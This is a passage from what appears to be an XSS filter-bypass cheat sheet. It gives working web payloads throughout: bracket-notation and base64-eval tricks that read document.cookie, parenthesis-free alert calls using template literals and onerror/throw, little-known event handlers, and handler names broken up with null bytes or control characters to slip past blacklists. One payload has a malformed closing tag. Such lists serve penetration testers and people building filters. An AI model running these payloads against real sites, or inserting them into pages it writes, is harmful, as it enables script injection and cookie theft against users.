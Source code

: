 ## Bypass Dot Filter

```javascript
<script>window['alert'](document['domain'])</script>
```

Convert IP address into decimal format: IE. `http://192.168.1.1` == `http://3232235777`
http://www.geektools.com/cgi-bin/ipconv.cgi

```javascript
<script>eval(atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))<script>
```

Base64 encoding your XSS payload with Linux command: IE. `echo -n "alert(document.cookie)" | base64` == `YWxlcnQoZG9jdW1lbnQuY29va2llKQ==`

## Bypass Parenthesis for String

```javascript
alert`1`
setTimeout`alert\u0028document.domain\u0029`;
```

## Bypass Parenthesis and Semi Colon

* From @garethheyes
    ```javascript
    <script>onerror=alert;throw 1337</script>
    <script>{onerror=alert}throw 1337</script>
    <script>throw onerror=alert,'some string',123,'haha'</script>
    ```

* From @terjanq
    ```js
    <script>throw/a/,Uncaught=1,g=alert,a=URL+0,onerror=eval,/1/g+a[12]+[1337]+a[13]</script>
    ```

* From @cgvwzq
    ```js
    <script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
    ```

## Bypass onxxxx Blacklist

* Use less known tag
    ```html
    <object onafterscriptexecute=confirm(0)>
    <object onbeforescriptexecute=confirm(0)>
    ```

* Bypass onxxx= filter with a null byte/vertical tab/Carriage Return/Line Feed
    ```html
    <img src='1' onerror\x00=alert(0) />
    <img src='1' onerror\x0b=alert(0) />
    <img src='1' onerror\x0d=alert(0) />
    <img src='1' onerror\x0a=alert(0) />
    ```
